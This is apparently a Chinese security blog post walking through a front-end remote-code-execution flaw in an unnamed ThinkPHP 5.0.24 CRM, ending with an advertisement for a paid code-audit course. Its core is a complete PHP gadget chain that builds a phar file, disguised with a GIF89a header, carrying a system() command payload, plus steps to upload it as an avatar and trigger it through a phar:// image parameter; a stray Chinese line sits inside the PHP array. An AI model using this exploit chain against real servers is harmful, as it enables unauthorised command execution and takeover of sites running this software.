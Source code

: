 #  某CRM系统前台RCE漏洞   
 sec0nd安全   2025-05-08 07:00  
  
**免责申明**  
  
本文章仅用于信息安全防御技术分享，因用于其他用途而产生不良后果,作者不承担任何法律责任，请严格遵循中华人民共和国相关法律法规，禁止做一切违法犯罪行为。  
  
#### 一、前言      
###     这是之前的一个库存了，现在发出来大家一期学习，现在官方已经打了相关补丁，一起来学习一下。  
### 二、审计流程  
###      是一个PHP的相关源码，载入源码进行查看架构。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVPCYqASAYYKARGricSicf5nXswEk246yHA9UNLpNSdpAbgWUiaS6iceDrrnribR6ZKOGvdRS1aI2RjjzQ/640?wx_fmt=png&from=appmsg "")  
  
这种架构可以非常明显的看出来是TP框架开发的，我们着重来审计前台RCE漏洞，查看前台的文件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVPCYqASAYYKARGricSicf5nXVVicOSEQlCcRbyCPuqoZvs4aJZzLyX7gFr98HhMm1iczMgmHkevdpzOQ/640?wx_fmt=png&from=appmsg "")  
  
在寻找一圈无果之后开始转战别的漏洞，这里先来确定一下TP的版本为5.0.24在这个版本当中存在一个反序列化漏洞，我们根据反序列化漏洞生成phar文件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVPCYqASAYYKARGricSicf5nXZREolwUiaPiasMutFkkWVfljkIs4DVpibEQSic9fibqA1BUvfiaMHwNO5PBQ/640?wx_fmt=png&from=appmsg "")  
  
生成代码如下：  
  
```
<?php
namespace League\Flysystem\Cached\Storage{
class Psr6Cache{
private $pool;
protected $autosave = false;
public function __construct($exp)
 {
$this->pool = $exp;
 }
 }
}
namespace think\log{
class Channel{
protected $logger;
protected $lazy = true;
public function __construct($exp)
 {
$this->logger = $exp;
$this->lazy = false;
 }
 }
}
namespace think{
class Request{
protected $url;
public function __construct()
 {
$this->url = '<?= system(\'要执行的命令'); exit(); ?>';
 }
 }
class App{
protected $instances = [];
public function __construct()
 {
$this->instances = ['think\Request'=>new Request()];
 }
 }
}
namespace think\view\driver{
class Php{}
}
namespace think\log\driver{
class Socket{
protected $config = [];
protected $app;
protected $clientArg = [];
public function __construct()
 {
$this->config = [
注册⽤户后上传⽂件
'debug'=>true,
'force_client_ids' => 1,
'allow_client_ids' => '',
'format_head' => [new \think\view\driver\Php,'display'], # 利⽤类和⽅法
 ];
$this->app = new \think\App();
$this->clientArg = ['tabid'=>'1'];
 }
 }
}
namespace {
@unlink('shell.png');
$phar = new Phar("phar.phar"); //
$phar->startBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$c = new think\log\driver\Socket();
$b = new think\log\Channel($c);
$a = new League\Flysystem\Cached\Storage\Psr6Cache($b);
$phar->setMetadata($a);
$phar->addFromString("a", "a"); //添加要压缩的⽂件
$phar->stopBuffering();
}
?>
```  
  
  
然后我们开始找phar反序列化漏洞触发点。  
  
三、phar反序列化触发点  
  
     
 这里师傅们不知道phar反序列化触发点在哪里可以自行百度一下。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVPCYqASAYYKARGricSicf5nXb8yiaicxDjjVZJRDyB8wtg7Y4TmdZZIQCAMez0CSZiciaP15kE1oJXzcMw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVPCYqASAYYKARGricSicf5nXSmLNksjicOVj1VVk1jpPIlWiaVNsVMszojP0eBoD5njSsOJdqtfK6wvw/640?wx_fmt=png&from=appmsg "")  
  
这里我们找到了readfile的触发点，这里虽然判断了后缀，但是不影响，phar反序列化漏洞不会受到后缀的影响，我们寻找哪里调用了这个方法put_image。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVPCYqASAYYKARGricSicf5nXXab9o5r1ia4Ptx6nZBPicfWutEnaJ7HWA8N8cA9ibu5ibOiaCPg3DVqk07A/640?wx_fmt=png&from=appmsg "")  
  
在Controller当中找  
到上述方法，这里我们的参数控制为image参数，现在我们只需要找一个可以上传图片的地方即可，然后调用这个地方的方法，将image变为phar  
://图片地址，即可。  
  
四、漏洞复现  
  
      
在这套源码当中，前台可以直接注册用户，并且进行头像上传（不贴图了，特征太明显了），上传之后我们进行phar反序列化漏洞攻击。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVPCYqASAYYKARGricSicf5nXKlibdUIVdkw0vWrtOVj2CzwN3Aadrm2ws8E6AVnHAAGqAQyzXliaf0kw/640?wx_fmt=png&from=appmsg "")  
  
这里执行的命令是在服务器当中创建一个目录为nishi。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVPCYqASAYYKARGricSicf5nXjXLn2Tb3ZWKp0R6AeIIeBNh95VNtOakR23lmFiaDSH5uF79LqlPpQXQ/640?wx_fmt=png&from=appmsg "")  
  
可以看到成功没创建，至此获得前台RCE漏洞一枚。  
  
五、完结  
  
  
     代码审计第四期，富含PHP、JAVA、NET代码审计，顺带APP、小程序、WEB当中参数逆向以及JAVA工具二开与SRC案例讲解，其中多多0day讲解，实战案例分析，不拿着靶场去做，想学习速速报名了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhUicibrBmrZ2iazoDJic2RyDklw4547e6aNia1OEMntI6wGqRdvr87XVgUdiaiczwW67bRO3iayvd7H7bZoeQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/ZRKuxIKRyhXhuxbCGecu4ibia3kSXD8ePQHrSvPSNtC7PmjzQwR88Hu0LpuXdQzamKBCPAXX82anLS8f0FF3LzzQ/640?wx_fmt=jpeg "")  
  
